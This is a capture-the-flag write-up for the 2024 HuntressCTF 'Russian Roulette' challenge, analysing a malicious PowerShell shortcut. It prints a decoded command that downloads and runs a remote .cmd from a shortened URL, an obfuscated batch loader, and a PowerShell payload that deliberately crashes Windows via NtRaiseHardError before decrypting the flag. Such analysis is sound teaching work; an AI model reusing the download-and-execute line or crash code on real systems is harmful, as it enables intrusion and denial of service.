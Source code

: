 ```yaml
---
title: 2024 HuntressCTF - Russian Roulette
date: 2024-10-03T07:00:00-07:00
tags:  - 
image: /2024-HuntressCTF/rr.png
---
```


### Summary
```
Author: @JohnHammond

My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
```

### Steps

Downloaded the challenge file on my Windows VM downloads as russian_roulette.zip and unzipped it with the challenge password. Inside the .zip file was a powershell.lnk file. The target was powershell command executing a base64 encoded string. `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -e aQB3AHIAIABpAHMALgBnAGQALwBqAHcAcgA3AEoARAAgAC0AbwAgACQAZQBuAHYAOgBUAE0AUAAvAC4AYwBtAGQAOwAmACAAJABlAG4AdgA6AFQATQBQAC8ALgBjAG0AZAA=`

Decoding the base64 string I see the powershell.lnk will execute this command:
```
iwr is[.]gd/jwr7JD -o $env:TMP/.cmd;& $env:TMP/.cmd
```

Before executing this, I opt'ed to try to manually download and understand what this will be doing. I used powershell to execute `iwr is[.]gd/jwr7JD -o test.cmd`.  

Opening test.cmd in notepad++, I see a similar output like this:
```
挦獬਍敀档⁯景൦猊瑥甠扣㵷敳൴㨊›鿐菑苑뗐裑뗐臑苑닐룐近퀠₲닐뻐뻐뇐胑냐뛐뗐뷐룐룐‬뫐냐뫐퀠₸뿐菑苑뗐裑뗐臑苑닐룐近퀠₲胑뗐냐믐賑뷐뻐
<--->
```
Using Notepad++ and CyberChef I attempted various different encoding but was unsuccessful. I next opened the file with HxD and observed that part of the script was visual basic as I see the presence of `@echo off`.  However, not being able to interact with the file on windows, I moved the file to linux and found that every other line is a comment that is not related to the challenge, but causes the file to become corrupt. 
```vba
��&cls
@echo off
:: Древние тексты, вырезанные на каменных плитах, рассказывают истории забытых королей и воинов, которые жили и умирали ради идей, оставив след в самой ткани мироздания.
set x=set
:: Часы тикают, как неумолимые маркеры времени, напоминая, что каждое мгновение — это шанс изменить свою судьбу и оставить свой след на страницах истории.
%x% s= 
:: В глубинах океана таятся существа, о которых мы даже не подозреваем, и каждый их взмах плавника — это тайна, скрытая от людского взора в бескрайней синеве морских глубин.
%x%%s%zz==
:: Сердце горит, когда встречаешь родственную душу, словно огонь, который не может быть потушен ни ветром, ни дождем, а только усиливается с каждым мгновением рядом.
%x%%s%p%zz%/
:: Путешествия в воображении, как и путешествия в реальности, могут привести к удивительным открытиям и незабываемым встречам с персонажами, которые живут на грани воображаемого и реального.
%x%%s%ma%zz%a
:: Сердце горит, когда встречаешь родственную душу, словно огонь, который не может быть потушен ни ветром, ни дождем, а только усиливается с каждым мгновением рядом.
%x%%s%gm%zz%c
:: Путь воина не измеряется длиной дорог или высотой гор, которые ему пришлось преодолеть, а количеством испытаний, с которыми он столкнулся и которые закалили его дух.
%x%%s%qf%zz%m
:: Часы тикают, как неумолимые маркеры времени, напоминая, что каждое мгновение — это шанс изменить свою судьбу и оставить свой след на страницах истории.
%x%%s%h%zz%d
:: Каждый миг — это подарок, обёрнутый в невидимую бумагу ожиданий и надежд, готовый раскрыться и принести с собой новые впечатления, которые будут помнить долго.
%x%%s%ax%zz%e
:: Теплый ветер приносит с собой запахи далёких стран, где культура смешивается с историей, а каждый камень на мостовой хранит в себе тайны веков.
%x%%s%ds%zz%x
:: Путь воина не измеряется длиной дорог или высотой гор, которые ему пришлось преодолеть, а количеством испытаний, с которыми он столкнулся и которые закалили его дух.
%x%%s%rb%zz%i
:: Каждый миг — это подарок, обёрнутый в невидимую бумагу ожиданий и надежд, готовый раскрыться и принести с собой новые впечатления, которые будут помнить долго.
%x%%s%cu%zz%t
:: Даже самые тихие моменты в жизни, те, которые проходят незамеченными, могут стать источником вдохновения для великих дел и невероятных открытий, если прислушаться к их тихому шепоту.
<...>
```
To clean up the file, I executed `cat test.cmd| grep -v ::` and see this is a highly obfuscated vbs script, where the variables are defined in the `exitcodeAscii` variable.  This was similar to a challenge last year.  However, before manually deobfuscating, I decided to run this in windows and see what happens. Also note, I enabled powershell logging before hand. 

I launched the powershell.lnk file and noticed after a few seconds another powershell prompt opened on my system. Looking at the powershell event logs, I discovered this command being executed.
```powershell
Pipeline execution details for command line: $s='using System;using System.Text;using System.Security.Cryptography;using System.Runtime.InteropServices;using System.IO;public class X{[DllImport("ntdll.dll")]public static extern uint RtlAdjustPrivilege(int p,bool e,bool c,out bool o);[DllImport("ntdll.dll")]public static extern uint NtRaiseHardError(uint e,uint n,uint u,IntPtr p,uint v,out uint r);public static unsafe string Shot(){bool o;uint r;RtlAdjustPrivilege(19,true,false,out o);NtRaiseHardError(0xc0000022,0,0,IntPtr.Zero,6,out r);byte[]c=Convert.FromBase64String("RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw");byte[]k=Convert.FromBase64String("/a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=");byte[]i=Convert.FromBase64String("9sXGmK4q9LdYFdOp4TSsQw==");using(Aes a=Aes.Create()){a.Key=k;a.IV=i;ICryptoTransform d=a.CreateDecryptor(a.Key,a.IV);using(var m=new MemoryStream(c))using(var y=new CryptoStream(m,d,CryptoStreamMode.Read))using(var s=new StreamReader(y)){return s.ReadToEnd();}}}}';$c=New-Object System.CodeDom.Compiler.CompilerParameters;$c.CompilerOptions='/unsafe';$a=Add-Type -TypeDefinition $s -Language CSharp -PassThru -CompilerParameters $c;if((Get-Random -Min 1 -Max 7) -eq 1){[X]::Shot()}Start-Process "powershell.exe". 
```
After spending some time researching plus using ChatGPT, I discoverd this was an AES decryption function. What we see here is is the following variables.
```
<legend>
c = Encrypted Content in base64
k = AES key
i = AES Initialization Vector.

c = RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw
k = /a1Y+fspq/NwlcPwpaT3irY2hcEytktuH7LsY+NlLew=
i = 9sXGmK4q9LdYFdOp4TSsQw==
```
Next, I used CyberChef to plugin these values.  First, I input `RNo8TZ56Rv+EyZW73NocFOIiNFfL45tXw24UogGdHkswea/WhnNhCNwjQn1aWjfw` and used `From Base64` and then performed a AES Decrypt with the other values. 

![](/static/2024-HuntressCTF/rr-cyberchef.png)

I want to take a moment to explain the deobfuscation process. Looking at the .cmd file we see this:

```vbs
@echo off
set x=set
%x% s= 
%x%%s%zz==
%x%%s%p%zz%/
%x%%s%ma%zz%a
%x%%s%gm%zz%c
%x%%s%qf%zz%m
%x%%s%h%zz%d
%x%%s%ax%zz%e
%x%%s%ds%zz%x
%x%%s%rb%zz%i
%x%%s%cu%zz%t
%x%%s%qd%zz% 
%x%%s%%p%%ma%%s%z%zz%8639305 %% 8639208
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%z%
%x%%s%wp%zz%%=exitcodeAscii%
%x%%s%%p%%ma%%s%ab%zz%3403246 %% 3403148
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%ab%
%x%%s%v%zz%%=exitcodeAscii%
%x%%s%%p%%ma%%s%cy%zz%5276898 %% 5276799
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%cy%
%x%%s%e%zz%%=exitcodeAscii%
%x%%s%%p%%ma%%s%eu%zz%5631300 %% 5631200
```
What is happening is first the script will set the variable `x` to `set`.  To manually start deobfuscating you'll find all instance of `%x%` and replace that with `set`. 

After doing the find and replace, we see the script now starts to look like this:
```vbs
@echo off
set x=set
set s= 
set%s%zz==
set%s%p%zz%/
set%s%ma%zz%a
set%s%gm%zz%c
set%s%qf%zz%m
set%s%h%zz%d
set%s%ax%zz%e
set%s%ds%zz%x
set%s%rb%zz%i
set%s%cu%zz%t
set%s%qd%zz% 
set%s%%p%%ma%%s%z%zz%8639305 %% 8639208
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%z%
set%s%wp%zz%%=exitcodeAscii%
set%s%%p%%ma%%s%ab%zz%3403246 %% 3403148
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%ab%
set%s%v%zz%%=exitcodeAscii%
set%s%%p%%ma%%s%cy%zz%5276898 %% 5276799
%gm%%qf%%h%%qd%%p%%gm%%qd%%ax%%ds%%rb%%cu%%qd%%cy%
set%s%e%zz%%=exitcodeAscii%
set%s%%p%%ma%%s%eu%zz%5631300 %% 5631200
```
Next, we see `s` is variable for a space. Again, we search for all  instances of `%s%` and replace it with a space. Continuing this logic down all the set values, we finally get this result:
```vbs
@echo off
set x=set
set s= 
set zz==
set p=/
set ma=a
set gm=c
set qf=m
set h=d
set ax=e
set ds=x
set rb=i
set cu=t
set qd= 
set /a z=8639305 %% 8639208
cmd /c exit %z%
set wp=%=exitcodeAscii%
set /a ab=3403246 %% 3403148
cmd /c exit %ab%
set v=%=exitcodeAscii%
set /a cy=5276898 %% 5276799
cmd /c exit %cy%
set e=%=exitcodeAscii%
set /a eu=5631300 %% 5631200
```
Now, the script is starting to come together.  The next spart we see 
```vbs
set /a z=8639305 %% 8639208
cmd /c exit %z%
set wp=%=exitcodeAscii%
set /a ab=3403246 %% 3403148
cmd /c exit %ab%
set v=%=exitcodeAscii%
set /a cy=5276898 %% 5276799
cmd /c exit %cy%
set e=%=exitcodeAscii%
set /a eu=5631300 %% 5631200
```

Next, set is doing a mathmatical operation by looking at the `/a` and that `%%` is looking for the remainder of the two values. To  test this interactively we can run `set /a z=8639305 % 8639208` (only 1 %), and we get a result of `97`.  What this tells us that `%z% = 97`. Looking at [AsciiCart.com](https://www.asciitable.com/) we see that the ASCII value for 97 is a lower case a. To coninue manually deobfuscating this script, we would replace all  instance of `%z%` with `a`.  Eventaully, we would get to a similar result that we saw in the Event Logs. 



Flag: flag{4e4f266d44717ff3af8bd92d292b79ec}